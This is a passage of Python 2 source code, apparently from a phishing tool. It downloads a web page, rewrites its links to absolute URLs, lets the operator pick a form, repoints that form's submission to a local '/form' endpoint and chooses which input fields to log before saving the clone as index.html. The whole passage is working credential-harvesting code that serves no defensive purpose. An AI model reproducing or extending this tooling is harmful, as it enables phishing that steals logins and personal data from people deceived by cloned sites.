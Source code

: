 ```python
        return link
    if link[0] == '/':
        # Absolute URL
        link = absolute_root(url) + link
        return link
    else:
        # Relative URL
        link = relative_root(url) + link
        return link


def download_page(url, target):
    html = urllib2.urlopen(url).read()
    soup = BeautifulSoup(html, 'lxml')
    for elem in soup.find_all():
        if elem.get('src', None):
            elem['src'] = relative_to_absolute(url, elem['src'])
        if elem.get('href', None):
            elem['href'] = relative_to_absolute(url, elem['href'])
    with open(target, "w") as f:
        f.write(soup.encode_contents())


def edit_page(filename):
    original_page = open(filename, 'r').read()
    soup = BeautifulSoup(original_page, 'lxml')
    forms = soup.find_all('form')
    print "[*] Found forms:"
    i = 0
    for f in forms:
        print "FORM " + str(i) + " --> " +  f.get('action', 'None')
        i += 1
    while True:
        try:
            i = int(raw_input('Form to log: '))
        except ValueError:
            print "Enter the form number"
        try:
            f = forms[i]
            break
        except IndexError:
            print "Invalid form number"
    print "Selected form " + str(i) + '\n'
    f['action'] = "/form"
    loggable = []
    for i in  f.find_all('input'):
        if i.get('name'):
            loggable.append(i['name'])
    while True:
        print "[*] Form fields:"
        for i in range(len(loggable)):
            print str(i) + " - " + loggable[i]
        input_params = raw_input('Fields to log (comma separated, e.g 1,4,5): ').split(',')
        to_log = []
        try:
            for i in input_params:
                to_log.append(loggable[int(i)])
            break
        except:
            print "Invalid format: use form field identifiers (e.g 1,4,5)"
    print 'Logging: ' + str(to_log) + '\n'
    with open('index.html', "w") as f:
        f.write(soup.encode_contents())
```